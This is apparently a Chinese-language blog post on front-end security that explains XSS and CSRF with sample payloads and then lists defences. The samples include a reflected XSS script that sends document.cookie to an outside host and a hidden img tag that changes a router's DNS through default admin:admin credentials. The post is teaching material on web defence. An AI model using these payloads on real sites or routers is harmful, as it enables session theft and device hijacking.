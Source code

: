 ```yaml
---
layout: post
title: 前端安全的那些事
---
```


> Ajax的兴起，带了前端技术的飞速发展，安全问题已经悄悄的从服务端转了前端。

常见的攻击手段有：

+ XSS（跨站脚本攻击）
+ CSRF(伪造请求攻击)

##XSS（跨站脚本攻击）##

###往web页面里插入恶意的html代码###

####页面中输入DOM节点####

{% highlight html %}
&lt;img src="xxx.gif" onload="window.location.href='johnqing.github.io'"&gt;
{% endhighlight %}

####页面中输入js脚本####

{% highlight html %}
window.location.href='johnqing.github.io'
{% endhighlight %}

如果用户在，用户信息等form表单中输入

{% highlight html %}
window.location.href='johnqing.github.io'
{% endhighlight %}

就会造成用户打开该页面就会执行自动跳转

####基于字符集的XSS####

用户在添加表单时，可输入如下代码：

{% highlight html %}
&lt;p&gt;
{% endhighlight %}

就可能造成页面错乱

###当用户浏览当前页面时，页面中html代码会被执行###

某网站的一个请求地址 和 页面中代码如下：

http://X.com/search.asp?q=ssss

{% highlight html %}
搜索结果：&lt;?php $_GET('q') ?&gt;
{% endhighlight %}

好了，俺偷偷伪造一个请求发送给该网站

{% highlight html %}
http://X.com/search.asp?q=&lt;script&gt;window.open("http://johnqing.github.io.cn?cookie="+document.cookie)&lt;/script&gt;
{% endhighlight %}

瞬间，他的cookie信息，都在这了。

###Flash XSS攻击###

当然flash作为web里一直存在的东东，当然也可以攻击。Flash中的getURL()动作，它可以使我们的页面重定向到函数指定的页面。

{% highlight html %}
getURL('javascript:alert(document.cookie)');
{% endhighlight %}

哈哈 cookie又在我这了。。

###未经验证的跳转造成的跨站###

服务端做302跳转时，跳转的地址来自用户，攻击者 可以输入一个恶意的网址进行跳转来执行脚本。

看了上面的内容，亲们肯定会想到，可以用上面的代码，实现一个钓鱼网站了。（ps：千万别干。。干了也别说我告诉你的。。）

####XSS漏洞修复####

原则：不相信客户输入的数据
注意: 攻击代码不一定在&lt;script&gt;&lt;/script&gt;中

将重要的cookie标记为http only, 这样的话Javascript 的document.cookie语句就不能获取到cookie了.
只允许用户输入我们期望的数据。例如：年龄的textbox中，只允许用户输入数字。 而数字之外的字符都过滤掉。
对数据进行Html Encode 处理
过滤或移除特殊的Html标签， 例如: &lt;script&gt;, &lt;iframe&gt; ,  &lt; for &lt;, &gt; for &gt;, &quot for
过滤JavaScript 事件的标签。例如 "onclick=", "onfocus" 等等。

##CSRF(伪造请求攻击)##

这个例子比较典型了，前几天看到一个同学发了一个他中招的东西，访问一个网站时，它会把你路由器DNS修改为Google 提供的 `8.8.8.8`。
这就是典型的伪造请求攻击。

代码如下：

{% highlight html %}
&lt;img style="display: none; " src="http://admin:admin@192.168.1.1/userRpm/LanDhcpServerRpm.htm?dhcpserver=1&amp;ip1=192.168.1.100&amp;ip2=192.168.1.199&amp;Lease=120&amp;gateway=0.0.0.0&amp;domain=&amp;dnsserver=&amp;dnsserver=8.8.8.8&amp;dnsserver2=8.8.8.8&amp;Save=%B1%A3+%B4%E6"&gt;
{% endhighlight %}

可以想象一下，假如你访问的是你的银行账户，而且丫也支持 `GET` 请求，很容易就会被攻击者利用这种漏洞，从账户中把钱拿出来

还有请勿调用第三的文件。

因为如果该文件被加入了攻击性脚本，你整个网站基本都会沦陷。

####CSRF的防御####

1. 限制验证cookie的到期时间。cookie的合法时间越短，黑客利用你的Web应用程序的机会就越小。
2. 验证码。每次的用户提交都需要用户在表单中填写一个图片上的随机字符串。这个方案可以完全解决CSRF，听闻是验证码图片的使用涉及了一个被称为MHTML的Bug，可能在某些版本的微软IE中受影响。
3. 用户在进行重要业务前输入口令。这可以防止黑客发动CSRF攻击（只要浏览器中没有包含口令），因为这种重要信息无法预测或轻易获得。
4. 使用定制的HTTP头。验证是否符合当前请求头。
5. 只允许GET请求检索数据，但是不允许它修改服务器上的任何数据。
